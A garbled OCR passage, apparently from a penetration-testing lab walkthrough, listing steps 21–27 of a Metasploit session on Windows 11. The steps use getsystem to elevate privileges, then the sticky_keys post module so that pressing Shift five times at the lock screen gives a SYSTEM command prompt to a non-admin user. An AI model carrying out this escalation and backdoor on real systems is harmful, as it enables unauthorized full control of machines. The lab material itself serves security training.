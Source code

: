 
 |
| step21 :-Type **getsystem -t 1** and press **Enter** | to elevate privileges. |
| step22 :-type **getuid** and press **Enter** |  |
| step23 :- Type **background** and press **Enter** |  |
| step24 :-Type **use post/windows/manage/sticky_keys** and press **Enter**. —→Now type **sessions -i*** and press **Enter.** | —> list the sessions in meterpreter. |
| step25 :- type **set session 2 Press Enter. —→** type **exploit** and press **Enter** |  |
| step26 :-switch to **Windows 11** machine and sign out from the **Admin** account and sign into **Martin** |  |
| step27 :- Martin is a user account without any admin privileges, lock the system and from the lock screen press **Shift** key **5** times, this will open a command prompt on the lock screen with System privileges instead of sticky keys error window.
2. [ ] In the Command Prompt window, type **whoami** and press **Enter**. |  |

